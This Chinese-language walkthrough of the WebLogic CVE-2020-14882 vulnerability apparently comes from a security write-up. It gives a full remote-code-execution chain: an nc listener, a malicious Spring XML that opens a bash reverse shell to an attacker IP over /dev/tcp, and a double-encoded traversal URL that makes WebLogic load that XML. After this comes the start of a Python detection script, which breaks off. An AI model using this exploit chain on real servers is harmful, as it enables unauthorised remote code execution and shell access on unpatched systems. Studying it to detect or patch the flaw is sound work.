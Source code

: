 ```
nc -lvnp 7777
```

事先准备一台web服务器，放置恶意rce.xml文件

rce.xml中的执行命令如下示例：

```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[bash -i >& /dev/tcp/192.168.31.66/7777 0>&1]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>

```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.31.66/rce.xml")
```

在攻击者主机上成功接收到反弹的shell

![截图](effc53d8d89c052688a92d2fab483726.png)

## 漏洞检测poc

WebLogic-CVE-2020-14882：

```
import requests

def scan(target_url):
    try:
        headers = {
            'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Mobile Safari/537.36'
        }
        # 漏洞利用的URL路径
        vulnerable_path = "/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29"
        # 完整的URL
        vul_url = target_url + vulnerable_path
```